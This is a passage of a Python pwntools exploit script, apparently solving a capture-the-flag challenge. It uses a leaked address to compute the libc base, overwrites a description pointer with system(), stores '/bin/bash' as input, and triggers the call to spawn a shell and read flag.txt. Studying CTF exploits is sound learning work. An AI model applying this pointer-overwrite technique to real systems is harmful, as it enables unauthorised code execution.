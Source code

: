 ```python
libc.address = leak - 0x083cc0

print('libc base:', hex(libc.address))

# edit decription

io.recvuntil('>> ')
io.sendline('2')

io.recvuntil('index: ')
io.sendline('0')

io.recvuntil('description: ')

io.sendline(p64(libc.sym['system']))

# add monster

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('1')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline('/bin/bash')

# EXPLOIT!

io.recvuntil('>> ')
io.sendline('4')

io.recvuntil('index: ')
io.sendline('1')

sleep(0.5)

io.sendline('cat flag.txt')

io.interactive()
```
